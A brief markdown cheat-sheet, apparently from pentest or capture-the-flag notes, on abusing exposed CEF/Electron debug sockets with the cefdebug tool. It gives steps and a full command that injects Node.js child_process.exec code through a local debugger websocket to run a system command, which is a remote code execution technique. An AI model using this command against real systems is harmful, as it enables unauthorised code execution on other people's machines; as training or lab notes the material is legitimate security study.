 # CEF-chronium-electron debugger

### For more information see this repo: https://github.com/taviso/cefdebug

### Steps:

#### 1) Run the binary without arguments to check for CEF debug sockets to connect

#### 2) Test for RCE

    .\cefdebug --code "process.mainModule.require('child_process').exec('whoami > C:\windows\system32\spool\drivers\color\0xdf')" --url ws://127.0.0.1:64493/fd4b0ffa-a388-40da-b01a-62709102094b 

### TIP: Act quickly because these sockets don't last long enough
